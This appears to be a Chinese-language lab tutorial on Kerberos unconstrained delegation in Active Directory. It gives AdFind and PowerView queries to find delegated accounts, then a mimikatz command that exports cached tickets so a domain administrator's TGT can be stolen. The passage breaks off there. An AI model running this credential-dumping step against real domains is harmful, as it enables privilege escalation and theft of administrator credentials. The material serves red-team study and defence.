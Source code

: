 域成员名:WIN7-PC 域成员IP：10.10.10.3

域管:administrator 域普通用户:test

* * *

### 设置非约束委派

在DC上`Active Directory用户和计算机`中设置机器账户`WIN7-PC`位非约束委派(也可以设置服务账户)

![](https://gitee.com/fuli009/images/raw/master/public/20221123153804.png)

当服务账户和机器账户设置了非约束委派时，`userAccountControl`属性会包含`TRUSTED_FOR_DELEGATION`

![](https://gitee.com/fuli009/images/raw/master/public/20221123153805.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221123153806.png)

可通过AdFind.exe来查询

    
    
    # 查询域中配置非约束委派的机器账户  
    AdFind.exe -b "dc=ccc1,dc=test" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn# 查询域中配置非约束委派的服务账户  
    AdFind.exe -b "dc=ccc1,dc=test" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221123153807.png)

通过查询可以发现DC和刚刚设置的WIN7-PC是配置了非约束性委派的

PowerView查询

    
    
    #查询非约束委派的机器账户  
    Get-NetComputer -Unconstrained -Domain ccc1.test  
    #查询非约束委派的服务账户  
    Get-NetUser -Unconstrained -Domain ccc1.test  
    

### 非约束委派利用

普通域用户是无法访问域控的

![]()

当域管通过WinRM等方式连接到WIN7-PC机器时，WIN7-PC机器的内存中会保留域管的TGT，此TGT可通过mimikatz导出
通过本地管理员运行mimikatz导出票据

    
    
    mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit  
    

![](https://gitee.com/fuli009/images/raw/master/public/20221123153809.png)
